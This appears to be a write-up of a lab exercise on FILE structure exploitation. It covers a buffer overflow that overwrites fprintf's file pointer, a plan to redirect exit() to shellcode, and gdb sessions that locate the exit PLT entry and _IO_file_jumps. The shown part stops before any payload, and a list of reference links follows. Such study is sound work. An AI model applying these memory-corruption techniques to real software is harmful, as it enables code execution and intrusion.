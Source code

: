 There is a buffer overflow that allows you to overwrite `fp` in `fprintf`, giving you full access over the `fprintf` 
function. `memfrob` xors everything of `buf` with `42` for `n` amount of bytes. This is just there to be able to give 
the program null bytes.

## Plan of action
First off, there are some routes you can take to potentially exploit this executable:
- Exploiting the `vtable` to call `system("/bin/sh")`
- Overwriting `exit()`'s function call to something else

I went for the latter option, because there is a protection in `vfprintf` that causes the program to abort when there 
is an invalid `vtable`.

In order to exploit this executable I need to do some things:
- find/get `exit()`'s PLT address, this is what will be overwritten by the shellcode address
- find a correct `vtable`, you need this because of the protection in `vprintf()`
- find a correct `lock`, this is an address pointing to NULL somewhere in memory
- create a correct FILE structure with the former points
- get the padding needed for the buffer overflow

## Gathering the required information
First task is getting `exit()`'s PLT address. To do this I simply used `gdb` with `peda`:

```
$ gdb ./vuln -q
Reading symbols from ./vuln...done.
gdb-peda$ disassemble exit
Dump of assembler code for function exit@plt:
   0x080483f0 <+0>:     jmp    DWORD PTR ds:0x8049958
   0x080483f6 <+6>:     push   0x18
   0x080483fb <+11>:    jmp    0x80483b0
End of assembler dump.
gdb-peda$
```

So `exit()`'s PLT address is `0x8049958`. Now for a `vtable`. In a [writeup][link-3] I read, I noticed that 
`_IO_file_jumps` is some sort of `vtable`, so I tried looking for that:

```
$ gdb ./vuln -q
gdb-peda$ b *main
Breakpoint 1 at 0x8048576: file vuln.c, line 9.
gdb-peda$ r abc
Starting program: /home/student/Research/FILE_struct_exp/vuln abc
[----snip----]
gdb-peda$ p &_IO_file_jumps
$1 = (<data variable, no debug info> *) 0xf7fac860 <_IO_file_jumps>
gdb-peda$
```


[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/